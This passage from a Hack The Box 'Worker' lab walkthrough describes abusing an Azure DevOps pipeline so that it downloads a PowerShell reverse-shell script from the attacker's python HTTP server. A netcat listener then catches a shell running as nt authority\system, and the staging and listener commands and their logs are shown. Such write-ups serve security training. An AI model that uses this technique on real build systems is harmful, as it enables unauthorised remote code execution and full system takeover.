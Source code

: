 ![](../../.gitbook/assets/15-success2.png)

Unfortunately I don't remember exactly what I had done wrong, or how I fixed it \(I need to take more detailed notes, I guess!\).  However, after a lot of trial and error, I was able to get the project to build and also execute my script.  No I hoped that it would actually execute the PowerShell script and send me a reverse shell!

New Pipeline - Azure Repos Git - PartsUnlimited - Starter Pipeline

```text
┌──(zweilos㉿kali)-[~/htb/worker]
└─$ python3 -m http.server 8909
Serving HTTP on 0.0.0.0 port 8909 (http://0.0.0.0:8909/) ...
10.10.10.203 - - [12/Dec/2020 20:32:32] "GET /revShell.ps1 HTTP/1.1" 200 -
```

My waiting python HTTP server got a connection request, and I could see that it sent the script.

### Getting a shell

```text
┌──(zweilos㉿kali)-[~/htb/worker]
└─$ nc -lvnp 8099                                                                                   1 ⨯
listening on [any] 8099 ...
connect to [10.10.15.98] from (UNKNOWN) [10.10.10.203] 51544

PS W:\agents\agent11\_work\8\s> whoami /all

USER INFORMATION
----------------

User Name           SID     
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

```